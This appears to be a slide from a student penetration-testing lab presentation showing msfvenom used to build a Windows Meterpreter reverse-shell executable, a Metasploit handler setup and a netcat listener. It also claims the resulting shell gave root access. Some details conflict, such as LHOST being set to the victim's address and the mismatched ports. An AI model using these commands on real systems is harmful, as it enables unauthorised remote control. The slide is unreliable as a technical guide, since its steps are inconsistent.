

# Exploitation: MSFVenom
01

02

03

Codes Used to Exploit

Ran: msfvenom -p /windows/meterpreter/reverse_tcp lhost=192.168.1.105
lport=80 -f exe > hack.exe

use exploit/ multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost to victim’s ip address and lport to 80

Tools & Processes

Created a hack.exe file. Installed hack.exe on the victim’s machine. Went back to Kali machine and chose exploit (/multi/handler) and payload (windows/meterpreter/reverse_tcp). Set LHOST to victims ip address and LPORT to 80. Went into capstone VM and ran “nc -lnvp 4444”

Achievements

This gave the Kali machine a reverse shell with root access, giving the machine access to all the secret files and full control of the system.